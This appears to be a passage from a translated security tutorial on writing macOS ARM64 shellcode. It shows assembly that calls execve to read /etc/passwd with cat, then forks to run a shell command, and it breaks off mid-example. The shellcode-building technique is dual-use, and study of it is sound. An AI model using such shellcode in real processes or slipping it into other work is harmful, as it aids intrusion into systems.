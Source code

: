 ````
#### Čitanje pomoću cat komande

Cilj je izvršiti `execve("/bin/cat", ["/bin/cat", "/etc/passwd"], NULL)`, tako da je drugi argument (x1) niz parametara (što u memoriji znači stek adresa).
```armasm
.section __TEXT,__text     ; Begin a new section of type __TEXT and name __text
.global _main              ; Declare a global symbol _main
.align 2                   ; Align the beginning of the following code to a 4-byte boundary

_main:
; Prepare the arguments for the execve syscall
sub sp, sp, #48        ; Allocate space on the stack
mov x1, sp             ; x1 will hold the address of the argument array
adr x0, cat_path
str x0, [x1]           ; Store the address of "/bin/cat" as the first argument
adr x0, passwd_path    ; Get the address of "/etc/passwd"
str x0, [x1, #8]       ; Store the address of "/etc/passwd" as the second argument
str xzr, [x1, #16]     ; Store NULL as the third argument (end of arguments)

adr x0, cat_path
mov x2, xzr            ; Clear x2 to hold NULL (no environment variables)
mov x16, #59           ; Load the syscall number for execve (59) into x8
svc 0                  ; Make the syscall


cat_path: .asciz "/bin/cat"
.align 2
passwd_path: .asciz "/etc/passwd"
````

**Pozovite komandu sa sh iz fork-a tako da glavni proces nije ubijen**

```armasm
.section __TEXT,__text     ; Begin a new section of type __TEXT and name __text
.global _main              ; Declare a global symbol _main
.align 2                   ; Align the beginning of the following code to a 4-byte boundary

_main:
; Prepare the arguments for the fork syscall
mov x16, #2            ; Load the syscall number for fork (2) into x8
svc 0                  ; Make the syscall
cmp x1, #0             ; In macOS, if x1 == 0, it's parent process, https://opensource.apple.com/source/xnu/xnu-7195.81.3/libsyscall/custom/__fork.s.auto.html
beq _loop              ; If not child process, loop

; Prepare the arguments for the execve syscall

sub sp, sp, #64        ; Allocate space on the stack
mov x1, sp             ; x1 will hold the address of the argument array
adr x0, sh_path
str x0, [x1]           ; Store the address of "/bin/sh" as the first argument
adr x0, sh_c_option    ; Get the address of "-c"
str x0, [x1, #8]       ; Store the address of "-c" as the second argument
adr x0, touch_command  ; Get the address of "touch /tmp/lalala"
str x0, [x1, #16]      ; Store the address of "touch /tmp/lalala" as the third argument
str xzr, [x1, #24]     ; Store NULL as the fourth argument (end of arguments)

adr x0, sh_path
mov x2, xzr            ; Clear x2 to hold NULL (no environment variables)
mov x16, #59           ; Load the syscall number for execve (59) into x8
svc 0                  ; Make the syscall


_exit:
```